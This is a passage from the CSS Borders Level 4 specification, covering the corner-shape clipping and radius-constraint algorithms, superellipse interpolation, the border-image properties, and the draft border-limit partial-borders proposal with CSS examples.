5. Let *bottomRightRadius* be *element*’s used value of `border-bottom-right-radius`.
6. Let *bottomLeftRadius* be *element*’s used value of `border-bottom-left-radius`.
7. Let *topLeftRadius* be *element*’s used value of `border-top-left-radius`.
8. Let *adjustedInset* be the following steps, given a radius *radius*, and numbers *insetX* and *insetY*:

  1. Let *adjustedRadius* be the outset-adjusted border radius given *borderRect*’s size, *radius*, and the outset `(-insetX, -insetY)`.
  2. Return the inset `(radius’s width - adjustedRadius’s width, radius’s height - adjustedRadius’s height)`.
9. Let *adjustedTopRightInset* be the *adjustedInset* given *topRightRadius*, *rightInset*, and *topInset*.
10. Let *adjustedBottomRightInset* be the *adjustedInset* given *bottomRightRadius*, *rightInset*, and *bottomInset*.
11. Let *adjustedBottomLeftInset* be the *adjustedInset* given *bottomLeftRadius*, *leftInset*, and *bottomInset*.
12. Let *adjustedTopLeftInset* be the *adjustedInset* given *topLeftRadius*, *leftInset*, and *topInset*.
13. Clip out from *path*, the border-aligned corner clip-out path given *topRightRadius*’s height, *topRightRadius*’s width, *adjustedTopRightInset*’s height, *adjustedTopRightInset*’s width, a `DOMPointReadOnly` at `(targetRect’s right, targetRect’s top)`, `(-1, 0)`, `(0, 1)`, *element*’s computed `corner-top-right-shape`.
14. Clip out from *path*, the border-aligned corner clip-out path given *bottomRightRadius*’s width, *bottomRightRadius*’s height, *adjustedBottomRightInset*’s width, *adjustedBottomRightInset*’s height, a `DOMPointReadOnly` at `(targetRect’s right, targetRect’s bottom)`, `(0, -1)`, `(-1, 0)`, *element*’s computed `corner-bottom-right-shape`.
15. Clip out from *path*, the border-aligned corner clip-out path given *bottomLeftRadius*’s height, *bottomLeftRadius*’s width, *adjustedBottomLeftInset*’s height, *adjustedBottomLeftInset*’s width, a `DOMPointReadOnly` at `(targetRect’s left, targetRect’s bottom)`, `(1, 0)`, `(0, -1)`, *element*’s computed `corner-bottom-left-shape`.
16. Clip out from *path*, the border-aligned corner clip-out path given *topLeftRadius*’s width, *topLeftRadius*’s height, *adjustedTopLeftInset*’s width, *adjustedTopLeftInset*’s height, a `DOMPointReadOnly` at `(targetRect’s left, targetRect’s top)`, `(0, 1)`, `(1, 0)`, *element*’s computed `corner-top-left-shape`.
17. Return *path*.

To compute the **border-aligned corner clip-out path** given numbers *startRadius*, *endRadius*, *startInset*, *endInset*, a `DOMPointReadOnly` *targetCornerOuter*, two-dimensional vectors *normalizedV3*, and *normalizedV2*, a superellipse parameter *K*:

> **Note:** This algorithm uses the following vector notation to work with corners independently of their orientation.
>
> 
>
> The corner vector notation overlaid on the top-right corner.

1. If *startRadius* or *endRadius* is zero, then return an empty path.
2. If *K* is ∞, then return an empty path.
3. Let *vectorToOriginalCornerOuterV3* be *normalizedV3*, scaled by `-endInset`.
4. Let *vectorToOriginalCornerOuterV2* be *normalizedV2*, scaled by `-startInset`.
5. Let *originalCornerOuter* be *targetCornerOuter*, extended by « *vectorToOriginalCornerOuterV3*, *vectorToOriginalCornerOuterV2* ».
6. Let *originalCornerStart* be *originalCornerOuter*, extended by « *normalizedV3* scaled by *endRadius* ».
7. Let *originalCornerEnd* be *originalCornerOuter*, extended by « *normalizedV2* scaled by *startRadius* ».
8. Let *halfCornerX* be the normalized superellipse half corner given *K*.
9. Let *controlPointX* be `clamp(0, 1/(sqrt(2) - 1) ⋅ halfCornerX - 1/sqrt(2), 1)`.
10. Let *insetDiff* be `clamp(-startRadius, endInset - startInset, endRadius)`.
11. If *K* is smaller than or equal to zero, and *insetDiff* is equal to `-startRadius` or *endRadius*, then return an empty path.
12. Let *startControlPointX* be *controlPointX*.
13. Let *endControlPointX* be *controlPointX*.
14. If *insetDiff* is not zero:

  1. Let *bevelNormalVectorX* be `endRadius ⋅ insetDiff + startRadius ⋅ sqrt(startRadius2 + endRadius2 - insetDiff2)`.
  2. Let *bevelNormalVectorY* be `-startRadius ⋅ insetDiff + endRadius ⋅ sqrt(startRadius2 + endRadius2 - insetDiff2)`.
  3. Let *bevelControlPointX* be `(startRadius ⋅ bevelNormalVectorY)/(startRadius ⋅ bevelNormalVectorY + endRadius ⋅ bevelNormalVectorX)`.
  4. Set *startControlPointX* to `bevelControlPointX · (2 · controlPointX)` if *K* is less than zero, `1 - (1 - bevelControlPointX) · (2 · (1 - controlPointX))` otherwise.
  5. Set *endControlPointX* to `2 ⋅ controlPointX - startControlPointX`.
15. Let *unmappedStartNormalVector* be the two-dimensional vector `((1 - startControlPointX) ⋅ startRadius, startControlPointX ⋅ endRadius)`, normalized.
16. Let *unmappedEndNormalVector* be the two-dimensional vector `(endControlPointX ⋅ startRadius, (1 - endControlPointX) ⋅ endRadius)`, normalized.
17. Let *startNormalVector* be the sum of « *normalizedV3* scaled by *unmappedStartNormalVector*[0], *normalizedV2* scaled by *unmappedStartNormalVector*[1] ».
18. Let *endNormalVector* be the sum of « *normalizedV3* scaled by *unmappedEndNormalVector*[0], *normalizedV2* scaled by *unmappedEndNormalVector*[1] ».
19. Let *adjustedCornerStart* be *originalCornerStart*, extended by « *startNormalVector* scaled by *startInset* ».
20. Let *adjustedCornerEnd* be *originalCornerEnd*, extended by « *endNormalVector* scaled by *endInset* ».
21. Let *startTangentVector* be the perpendicular of *startNormalVector*, scaled by -1.
22. Let *endTangentVector* be the perpendicular of *endNormalVector*.
23. Let *miterStart* be *adjustedCornerStart*.
24. Let *miterEnd* be *adjustedCornerEnd*.
25. If *startInset* is less than zero:

  1. Let *clipStart* be *targetCornerOuter*, extended by « *normalizedV3* ».
  2. Set *miterStart* to the intersection between the lines `(adjustedCornerStart, adjustedCornerStart extended by « startTangentVector »)` and `(clipStart, targetCornerOuter)`. If the lines are parallel, let it be *adjustedCornerStart*.
  3. If *K* is greater than or equal to zero, set *adjustedCornerStart* to *miterStart*.
26. If *endInset* is less than zero:

  1. Let *clipEnd* be *targetCornerOuter*, extended by « *normalizedV2* ».
  2. Set *miterEnd* to the intersection between the lines `(adjustedCornerEnd, adjustedCornerEnd extended by « endTangentVector »)` and `(clipEnd, targetCornerOuter)`. If the lines are parallel, let it be *adjustedCornerEnd*.
  3. If *K* is greater than or equal to zero, set *adjustedCornerEnd* to *miterEnd*.
27. Let *adjustedCornerDiagonalVector* be the vector between *adjustedCornerStart* and *adjustedCornerEnd*.
28. Let *adjustedCornerHeight* be the dot product of *adjustedCornerDiagonalVector* and *normalizedV2*.
29. Let *adjustedCornerOuter* be *adjustedCornerEnd*, extended by « *normalizedV2* scaled by `-adjustedCornerHeight` ».
30. Let *adjustedCornerCenter* be *adjustedCornerStart*, extended by « *normalizedV2* scaled by *adjustedCornerHeight* ».
31. Let *mapPointToCorner* be the following steps, given numbers *x* and *y*, `DOMPointReadOnly` *start*, *end*, and *center*:

  1. Let *v1* be the vector between *center* and *end*, scaled by *x*.
  2. Let *v4* be the vector between *center* and *start*, scaled by *y*.
  3. Return *center*, extended by « *v1*, *v4* ».
32. Let *selfIntersection* be undefined.
33. If *K*, *startInset*, and *endInset* are less than zero:

  1. If `-endInset` is greater than or equal to *startRadius*:

    1. Set *selfIntersection* to the intersection between the segment `(miterStart, adjustedCornerStart)` and the line `(miterEnd, adjustedCornerEnd)`.
  2. If `-startInset` is greater than or equal to *endRadius*, and *selfIntersection* is undefined:

    1. Set *selfIntersection* to the intersection between the segment `(miterEnd, adjustedCornerEnd)` and the line `(miterStart, adjustedCornerStart)`.
34. Let *path* be a path, starting at *miterStart*.
35. If *selfIntersection* is a defined point:

  1. Extend *path* to *selfIntersection*.
36. Otherwise, if *K* is -∞:

  1. Extend *path* to *adjustedCornerCenter*.
37. Otherwise, if *K* is greater than zero or less than or equal to -1:

  1. Let *n* be `2abs(K)`.
  2. Let *curveCenter* be *adjustedCornerOuter* if *K* is less than zero, *adjustedCornerCenter* otherwise.
  3. For every *T* between 0 and 1, in an implementation-approximated manner, extend *path* to the result of calling *mapPointToCorner* given `T1/n` and `(1 - T)1/n`, *adjustedCornerStart*, *adjustedCornerEnd*, and *curveCenter*.
38. Otherwise, if *K* is greater than -1 and less than zero:

  1. Let *tangentIntersection* be the intersection between the lines `(adjustedCornerStart, adjustedCornerStart extended by « startTangentVector »)` and `(adjustedCornerEnd, adjustedCornerEnd extended by « endTangentVector »)`. If the lines are parallel, let it be *adjustedCornerStart*.
  2. For every *T* between 0 and 1, in an implementation-approximated manner, extend *path* to the result of calling *mapPointToCorner* given `1 - (1 - T)1/2` and `1 - T1/2`, *adjustedCornerStart*, *adjustedCornerEnd*, and *tangentIntersection*.
39. Extend *path* to *miterEnd*.
40. Return *path*.

##### 3.9.5.  Constraining opposite radii {#css-borders-4:corner-shape-constrain-radii}

When concave `corner-shape` values are present (the superellipse parameter is negative), diagonally opposite corners might overlap each other.

> **Example:** The following example would create overlapping corners if not constrained.
>
> ```css
> div {
>   corner-shape: scoop;
>   border-top-left-radius: 80%;
>   border-bottom-right-radius: 80%;
> }
> ```

To prevent this, the four radii are constrained to prevent overlaps. This is done by computing a hull polygon for each of the opposite corners, and finding the highest downscale factor which, if applied to both corners, would make it so that the polygons would not intersect. The used values of all border radii must be proportionally reduced by multiplying them by the minimum of the opposite corner scale factor and the adjacent corner scale factor.

To compute the **opposite corner scale factor** given an element *element*:

1. Let *rect* be *element*’s border box.
2. Let *topRightRadius* be *element*’s computed value of `border-top-right-radius`.
3. Let *bottomRightRadius* be *element*’s computed value of `border-bottom-right-radius`.
4. Let *bottomLeftRadius* be *element*’s computed value of `border-bottom-left-radius`.
5. Let *topLeftRadius* be *element*’s computed value of `border-top-left-radius`.
6. Let *unmappedTopRightHull* be the normalized inner corner hull given *element*’s computed `corner-top-right-shape`.
7. Let *unmappedBottomRightHull* be a the normalized inner corner hull given *element*’s computed `corner-bottom-right-shape`.
8. Let *unmappedBottomLeftHull* be a the normalized inner corner hull given *element*’s computed `corner-bottom-left-shape`.
9. Let *unmappedTopLeftHull* be a the normalized inner corner hull given *element*’s computed `corner-top-left-shape`.
10. Let *mapPolygonToCorner* be the following steps, given a list of `DOMPointReadOnly` *polygon*, `DOMPointReadOnly` *start*, *end*, and *center*:

  1. Let *mappedPolygon* be an empty list.
  2. For each *p* in *polygon*:

    1. Let *v1* be the vector between *center* and *end*, scaled by *p*’s `x`.
    2. Let *v4* be the vector between *center* and *start*, scaled by *p*’s `y`.
    3. Let *mappedPoint* be *center*, extended by « *v1*, *v4* ».
    4. Append *mappedPoint* to *mappedPolygon*.
  3. Return *mappedPolygon*.
11. Let *topRightHull* be *mapPolygonToCorner* given *unmappedTopRightHull*, `DOMPointReadOnly` at `(rect’s width dimension - topRightRadius’s width, 0)`, at `(rect’s width dimension, topRightRadius’s height)`, and at `(rect’s width dimension - topRightRadius’s width, topRightRadius’s height)`.
12. Let *bottomRightHull* be *mapPolygonToCorner* given *unmappedBottomRightHull*, `DOMPointReadOnly` at `(rect’s width dimension, rect’s height dimension - bottomRightRadius’s height)`, at `(rect’s width dimension - bottomRightRadius’s width, rect’s height dimension)`, and at `(rect’s width dimension - bottomRightRadius’s width, rect’s height dimension - bottomRightRadius’s height)`.
13. Let *bottomLeftHull* be *mapPolygonToCorner* given *unmappedBottomLeftHull*, `DOMPointReadOnly` at `(bottomLeftRadius’s width, rect’s height dimension)`, at `(0, rect’s height dimension - bottomLeftRadius’s height)`, and at `(bottomLeftRadius’s width, rect’s height dimension - bottomLeftRadius’s height)`.
14. Let *topLeftHull* be *mapPolygonToCorner* given *unmappedTopLeftHull*, `DOMPointReadOnly` at `(0, topLeftRadius’s height)`, at `(topLeftRadius’s width, 0)`, and at `(topLeftRadius’s width, topLeftRadius’s height)`.
15. Let *scaleFactorA* be the highest number which, if both *topLeftHull* and *bottomRightHull* were scaled by, using their first point as the origin, those polygons would not intersect.
16. Let *scaleFactorB* be the highest number which, if both *topRightHull* and *bottomLeftHull* were scaled by, using their first point as the origin, those polygons would not intersect.
17. Return `min(1, scaleFactorA, scaleFactorB)`.

To compute the **normalized inner corner hull** given a superellipse parameter *K*:

1. If *K* is greater than or equal to zero, return a triangle between the points « (1, 1), (1, 0), (0, 1) ».
2. Let *v4Line* be the line through the points `(0, 0)` and `(0, 1)`.
3. Let *v3Line* be the line through the points `(0, 0)` and `(1, 0)`.
4. Let *halfCornerX* be the normalized superellipse half corner given *K*.
5. Let *halfCornerPoint* be a point at `(halfCornerX, halfCornerX)`.
6. Let *diagonalLine* be the line through the points `(0, 0)` and `(1, 1)`.
7. Let *tangentLine* be the line perpendicular to *diagonalLine*, at *halfCornerPoint*.
8. Let *v4Intersection* be the intersection between *v4Line* and *tangentLine*.
9. Let *v3Intersection* be the intersection between *v3Line* and *tangentLine*.
10. Return a pentagon between the points « (1, 1), (1, 0), *v3Intersection*, *v4Intersection*, (0, 1) ».

##### 3.9.6.  Interpolating corner shapes {#css-borders-4:corner-shape-interpolation}

Since a `<corner-shape-value>` can always be expressed by a `superellipse()` with an superellipse parameter variable, interpolating between two <corner-shape-value>s is done by interpolating the superellipse parameter itself. Since the bevel, round, and straight corner shapes correspond to parameter values of 0, 1, and infinity, respectively, interpolating between them linearly would make the transition from a bevel to a straight corner shape appear to start very quickly and slow down toward the end. To balance that, the **superellipse interpolation** formula describes how a superellipse parameter is converted to a value between 0 and 1, and vice versa:

To compute the **normalized superellipse half corner** given a superellipse parameter *K*, return the first matching statement, switching on *K*:

**-∞**

: Return 0.

**∞**

: Return 1.

**Otherwise**

: 1. Let *n* be `2abs(K)`.
  2. Let *convexHalfCorner* be `0.51/n`.
  3. If *K* is less than 0, return `1 - convexHalfCorner`.
  4. Return *convexHalfCorner*.

To interpolate a superellipse parameter *K* to an interpolation value between 0 and 1, return the normalized superellipse half corner given *K*.

To convert a `<number [0,1]>` *interpolationValue* back to a superellipse parameter, switch on *interpolationValue*:

**0**

: Return -∞.

**0.5**

: Return 0.

**1**

: Return ∞.

**Otherwise**

: 1. Let *convexHalfCorner* be *interpolationValue*.
  2. If *interpolationValue* is less than 0.5, set *convexHalfCorner* to `1 - interpolationValue`.
  3. Let *n* be `ln(0.5) / ln(convexHalfCorner)`.
  4. Let *K* be `log2(n)`.
  5. If *interpolationValue* is less than 0.5, return -*K*.
  6. Return *K*.

### 4.  Border Images {#css-borders-4:border-images}

Authors can specify an image to be used in place of the border styles. In this case, the border’s design is taken from the sides and corners of an image specified with `border-image-source`, whose pieces may be sliced, scaled, and stretched in various ways to fit the size of the border image area. The border-image properties do not affect layout: layout of the box, its content, and surrounding content is based on the `border-width` and `border-style` properties only.

> **Example:** This example creates a top and bottom border consisting of a whole number of orange diamonds and a left and right border of a single, stretched diamond. The corners are diamonds of a different color. The image to tile is as follows. Apart from the diamonds, it is transparent:
>
> 
>
> The image is 81 by 81 pixels and has to be divided into 9 equal parts. The style rules could thus be as follows:
>
> ```
> DIV {
>   border: double orange 1em;
>   border-image: url("border.png") 27 round stretch;
>  }
> ```
>
> The result, when applied to a DIV of 12 by 5em, will be similar to this:
>
> 

> **Example:** This shows a more complicated example, demonstrating how the border image corresponds to the fallback border-style but can also extend beyond the border area. The border image is a wavy green border with an extended corner effect:
>
> 
>
> The `border-image-source` image, with the four `border-image-slice` cuts at 124px dividing the image into nine parts.
>
> The rest of the border properties then interact to lay out the tiles as follows:
>
> ![Diagram: The image-less (fallback) rendering has a green double border. The rendering with border-image shows the wavy green border, ith the waves getting longer as they reach the corners. The corner tiles render as 124px-wide squares and the side tiles repeat a whole number of times to fill the space in between. Because of the gradual corner effects, the tiles extend deep into the padding area. The whole border image effect is outset 31px, so that the troughs of the waves align just outside the padding edge.](../css-borders-4/images/border-image.png)
>
> Diagram of all border-image properties and how they interact, and showing the rendering with and without the border-image in effect.
>
> Here, even though the `border-width` is 12px, the `border-image-width` property computes to 124px. The border image area is then outset 31px from the border box and into the margin area. If the border-image fails to load (or if border images are not supported by the UA), the fallback rendering uses a green double border.

> **Example:** Notice that the `border` shorthand resets `border-image`. This makes it easy to turn off or reset all border effects:
>
> ```
> .notebox {
>   border: double orange;
>   /* must set 'border' shorthand first, otherwise it erases 'border-image' */
>   border-image: url("border.png") 30 round;
>   /* but other 'border' properties can be set after */
>   border-width: thin thick;
> }
> ...
> .sidebar .notebox {
>   box-shadow: 0 0 5px gray;
>   border-radius: 5px;
>   border: none; /* turn off all borders */
>   /* 'border' shorthand resets 'border-image' */
> }
> ```

#### 4.1.  Image Source: the `border-image-source` property {#css-borders-4:border-image-source}

| Field | Value |
| --- | --- |
| Name: | **border-image-source** |
| [Value:](#css-values-4:value-defs) | none \| `<image>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | All elements, except internal table elements when `border-collapse` is collapse |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the keyword `none` or the computed `<image>` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Specifies an image to use as a border in place of the rendering specified by the `border-style` properties and, if given the `fill` keyword in `border-image-slice`, as an additional image backdrop for the element. If the value is `none` or if the image cannot be displayed (or the property doesn’t apply), the border styles will be used; otherwise the element’s `border-style` borders are not drawn and this **border image** is drawn as described in the sections below.

#### 4.2.  Image Slicing: the `border-image-slice` property {#css-borders-4:border-image-slice}

| Field | Value |
| --- | --- |
| Name: | **border-image-slice** |
| [Value:](#css-values-4:value-defs) | [`<number [0,∞]>` \| `<percentage [0,∞]>`]{1,4} && fill? |
| [Initial:](#css-cascade-6:initial-values) | 100% |
| [Applies to:](#css-cascade-5:applies-to) | All elements, except internal table elements when `border-collapse` is collapse |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to size of the border image |
| [Computed value:](#css-cascade-6:computed) | four values, each either a number or percentage; plus a `fill` keyword if specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

This property specifies inward offsets from the top, right, bottom, and left edges of the image, dividing it into nine regions: four corners, four edges and a middle. The middle image part is discarded (treated as fully transparent) unless the `fill` keyword is present. (It is drawn over the background; see [Drawing the Border Image](#css-borders-4:border-image-process).)

If there is only one component value, it applies to all sides. If there are two values, the top and bottom are set to the first value and the right and left are set to the second. If there are three values, the top is set to the first value, the left and right are set to the second, and the bottom is set to the third. If there are four values they apply to the top, right, bottom, and left, respectively.

****`<percentage [0,∞]>`****

: Percentages are relative to the size of the image: the width of the image for the horizontal offsets, the height for vertical offsets.

****`<number [0,∞]>`****

: Numbers represent pixels in the image (if the image is a raster image) or vector coordinates (if the image is a vector image).

****fill****

: The `fill` keyword, if present, causes the middle part of the border-image to be preserved. (By default it is discarded, i.e., treated as empty.)

Negative values are invalid. Computed values larger than the size of the image are interpreted as `100%`.

The regions given by the `border-image-slice` values may overlap. However if the sum of the right and left widths is equal to or greater than the width of the image, the images for the top and bottom edge and the middle part are empty—​which has the same effect as if a nonempty transparent image had been specified for those parts. Analogously for the top and bottom values.

If the image must be sized to determine the slices (for example, for SVG images with no natural dimensions), then it is sized using the [default sizing algorithm](#css-images-3:default-sizing) with no specified size and the border image area as the default object size.


Diagram illustrating the cuts corresponding to the value `25% 30% 12% 20%`

#### 4.3.  Drawing Areas: the `border-image-width` property {#css-borders-4:border-image-width}

| Field | Value |
| --- | --- |
| Name: | **border-image-width** |
| [Value:](#css-values-4:value-defs) | [ `<length-percentage [0,∞]>` \| `<number [0,∞]>` \| auto ]{1,4} |
| [Initial:](#css-cascade-6:initial-values) | 1 |
| [Applies to:](#css-cascade-5:applies-to) | All elements, except internal table elements when `border-collapse` is collapse |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | Relative to width/height of the border image area |
| [Computed value:](#css-cascade-6:computed) | four values, each either a number, the keyword `auto`, or a computed `<length-percentage>` value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

The border image is drawn inside an area called the **border image area**. This is an area whose boundaries by default correspond to the border box, see `border-image-outset`.

The four values of `border-image-width` specify offsets that are used to divide the border image area into nine **regions**. The offsets represent inward distances from the top, right, bottom, and left sides of the area, respectively.

If there is only one component value, it applies to all sides. If there are two values, the top and bottom are set to the first value and the right and left are set to the second. If there are three values, the top is set to the first value, the left and right are set to the second, and the bottom is set to the third. If there are four values they apply to the top, right, bottom, and left, respectively.

Values have the following meanings:

****`<length-percentage [0,∞]>`****

: Percentages refer to the size of the border image area: the width of the area for horizontal offsets, the height for vertical offsets.

****`<number [0,∞]>`****

: Numbers represent multiples of the corresponding computed [border-width](#css-borders-4:border-width).

****auto****

: If `auto` is specified then the used `border-image-width` is the natural width or height (whichever is applicable) of the corresponding image slice (see `border-image-slice`). If the image does not have the required natural dimension then the corresponding computed `border-width` is used instead.

Negative values are invalid for any `border-image-width` values.

If two opposite `border-image-width` offsets are large enough that they overlap, then the used values of all `border-image-width` offsets are proportionally reduced until they no longer overlap. In mathematical notation: Given *Lwidth* as the width of the border image area, *Lheight* as its height, and *W*side** as the `border-image-width` offset for the *side* side, let *f* = min(*Lwidth*/(*Wleft*+*Wright*), *Lheight*/(*Wtop*+*Wbottom*)). If *f* < 1, then all *W* are reduced by multiplying them by *f*.

#### 4.4.  Edge Overhang: the `border-image-outset` property {#css-borders-4:border-image-outset}

| Field | Value |
| --- | --- |
| Name: | **border-image-outset** |
| [Value:](#css-values-4:value-defs) | [ `<length [0,∞]>` \| `<number [0,∞]>` ]{1,4} |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | All elements, except internal table elements when `border-collapse` is collapse |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | four values, each a number or absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

The values specify the amount by which the border image area extends beyond the border box.

If there is only one component value, it applies to all sides. If there are two values, the top and bottom are set to the first value and the right and left are set to the second. If there are three values, the top is set to the first value, the left and right are set to the second, and the bottom is set to the third. If there are four values they apply to the top, right, bottom, and left, respectively.

**`<length [0,∞]>`**

: Represents an outset of the specified length.

**`<number [0,∞]>`**

: Represents an outset of the specified multiple of the corresponding computed [border-width](#css-borders-4:border-width).

Negative values are invalid.

Portions of the border-image that are rendered outside the border box are ink overflow and do not trigger scrolling. Also such portions are invisible to mouse events and do not capture such events on behalf of the element.

> **Note:** Even though they never cause a scrolling mechanism, outset images may still be clipped by an ancestor or by the viewport.

#### 4.5.  Image Tiling: the `border-image-repeat` property {#css-borders-4:border-image-repeat}

| Field | Value |
| --- | --- |
| Name: | **border-image-repeat** |
| [Value:](#css-values-4:value-defs) | [ stretch \| repeat \| round \| space ]{1,2} |
| [Initial:](#css-cascade-6:initial-values) | stretch |
| [Applies to:](#css-cascade-5:applies-to) | All elements, except internal table elements when `border-collapse` is collapse |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | two keywords, one per axis |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies how the images for the sides and the middle part of the border image are scaled and tiled. The first keyword applies to the horizontal scaling and tiling of the top, middle and bottom parts, the second to the vertical scaling and tiling of the left, middle and right parts; see [Drawing the Border Image](#css-borders-4:border-image-process). If the second keyword is absent, it is assumed to be the same as the first. Values have the following meanings:

****stretch****

: The image is stretched to fill its corresponding region.

****repeat****

: The image is tiled (repeated) to fill its corresponding region.

****round****

: The image is tiled (repeated) to fill its corresponding region. If it does not fill the area with a whole number of tiles, the image is rescaled so that it does.

****space****

: The image is tiled (repeated) to fill its corresponding region. If it does not fill the region with a whole number of tiles, the extra space is distributed around the tiles.

The exact process for scaling and tiling the border-image parts is given in the section below.

#### 4.6.  Drawing the Border Image {#css-borders-4:border-image-process}

After the border image given by `border-image-source` is sliced by the `border-image-slice` values, the resulting nine images are scaled, positioned, and tiled into their corresponding border image regions in four steps:

1. Scale to `border-image-width`.

  - The two images for the top and bottom edges are made as tall as the top and bottom border image regions, respectively, and their width is scaled proportionally.
  - The images for the left and right edges are made as wide as the left and right border image regions, respectively, and their height is scaled proportionally.
  - The corner images are scaled to be as wide and as tall as the their respective border image regions.
  - The middle image’s width is scaled by the same factor as the top image unless that factor is zero or infinity, in which case the scaling factor of the bottom is substituted, and failing that, the width is not scaled. The height of the middle image is scaled by the same factor as the left image unless that factor is zero or infinity, in which case the scaling factor of the right image is substituted, and failing that, the height is not scaled.
2. Scale to `border-image-repeat`.

  - If the first keyword is `stretch`, the top, middle and bottom images are further scaled to be as wide as the middle region of the border image area. The height is not changed any further.
  - If the first keyword is `round`, the top, middle and bottom images are resized in width, so that exactly a whole number of them fit in the middle region of the border image area, exactly as for `round` in the `background-repeat` property.
  - If the first keyword is `repeat` or `space`, the top, middle, and bottom images are not changed any further.
  - The effects of `stretch`, `round`, `repeat`, and `space` for the second keyword are analogous, acting on the height of the left, middle and right images.
3. Position the first tile.

  - If the first keyword is `repeat`, the top, middle, and bottom images are centered horizontally in their respective regions. Otherwise the images are placed at the left edge of their respective regions of the border image area.
  - If the second keyword is `repeat`, the left, middle, and right images are centered vertically in their respective regions. Otherwise the images are placed at the top edge of their respective regions of the border image area.
4. Tile and draw.

  - The images are then tiled to fill their respective regions.
  - In the case of `space`, any partial tiles are discarded and the extra space distributed before, after, and between the tiles. (I.e. the gap before the first tile, the gap after the last tile, and the gaps between tiles are equalized.) This can result in empty border-image side regions.
  - The images are drawn at the same stacking level as normal borders: immediately in front of the background layers.
  - The middle image is not drawn unless `fill` was specified for `border-image-source`.

#### 4.7.  Border Image Shorthand: the `border-image` property {#css-borders-4:border-image}

| Field | Value |
| --- | --- |
| Name: | **border-image** |
| [Value:](#css-values-4:value-defs) | `<'border-image-source'>` \|\| `<'border-image-slice'>` [ / `<'border-image-width'>` \| / <'border-image-width'>? / `<'border-image-outset'>` ]? \|\| `<'border-image-repeat'>` |
| [Initial:](#css-cascade-6:initial-values) | See individual properties |
| [Applies to:](#css-cascade-5:applies-to) | See individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | See individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | See individual properties |

This is a shorthand property for setting `border-image-source`, `border-image-slice`, `border-image-width`, `border-image-outset`, and `border-image-repeat` in a single declaration. Omitted values are set to their initial values.

#### 4.8. Effect on Tables {#css-borders-4:border-image-tables}

The `border-image` properties apply to the border of tables and inline tables that have `border-collapse` set to collapse. However, this specification does not define how such an image border is rendered. In particular, it does not define how the image border interacts with the borders of cells, rows and row groups at the edges of the table (see [border conflict resolution](#css2:border-conflict-resolution) in [CSS2]).

It is expected that a future specification will define the rendering. It is recommended that UAs do not apply border images to tables with collapsed borders until then.

### 5.  Partial borders {#css-borders-4:partial-borders}

Not Ready For Implementation

This section is not yet ready for implementation. It exists in this repository to record the ideas and promote discussion.

Before attempting to implement anything of this section, please contact the CSSWG at www-style@w3.org.

CSS borders traditionally cover an entire border edge. Sometimes, however, it can be useful to hide some parts of the border.

> **Issue:** Here are two proposals for doing this: the second one is from GCPM, the first one is an attempt to recast it more readably. The names are terrible, known problem, proposals accepted. There is a problem with conceiving this as clipping: if you have dotted borders, you want whole dots always, not parts of dots. So it should be a drawing limit, not a clip.

#### 5.1.  Partial Borders: the `border-limit` property {#css-borders-4:border-limit}

| Field | Value |
| --- | --- |
| Name: | **border-limit** |
| [Value:](#css-values-4:value-defs) | all \| [ sides \| corners ] `<length-percentage [0,∞]>`? \| [ top \| right \| bottom \| left ] <length-percentage [0,∞]> |
| [Initial:](#css-cascade-6:initial-values) | all |
| [Applies to:](#css-cascade-5:applies-to) | all elements, except table element when `border-collapse` is `collapse` |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to border-box |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

By default, the entire border is drawn. However, border rendering can be limited to only part of a border. The keyword specifies which part, and the length or percentage specifies how much.

****`all`****

: The entire border is drawn.

****`sides`****

: The sides are drawn up to but not including the corners (as defined by the border radii). A length or percentage is measured from the center of each side: `50%` draws the middle 50% of the border; by default the entire side is drawn.

****`corners`****

: The corners are drawn plus the specified distance into the sides if specified. A length is measured from the closest edge of the corner area. A percentage is measured from the absolute corner of the border box.

****`left`** **`right`****

: For the left and right (vertical) sides, draws the entire side and corner. For the top and bottom (horizontal) sides, draws the left/right portion, as specified. Distances are measured as for `corners`.

****`top`** **`bottom`****

: For the top and bottom (horizontal) sides, draws the entire side and corner. For the left and right (vertical) sides, draws the top/bottom portion, as specified. Distances are measured as for `corners`.

> **Example:** The following example draws only the middle 50% of the sides.
>
> ```css
> div {
>   border: solid;
>   border-limit: sides 50%;
> }
> ```

> **Example:** The following example draws only the curved parts of the corners.
>
> ```css
> div {
>   border: solid;
>   border-radius: 1em 2em;
>   border-limit: corners;
> }
> ```

> **Example:** The following example draws only the left 4em of the top border.
>
> ```css
> div {
>   border-top: solid;
>   border-limit: left 4em;
> }
> ```

> **Example:** The following example draws only the first 10px of each corner:
>
> ```css
> div {
>   border: solid;
>   border-limit: corners 10px;
> }
> ```

> **Example:** The following example draws the curved part of the corner plus 5px along the sides:
>
> ```css
> div {
>   border: solid;
>   border-radius: 5px;
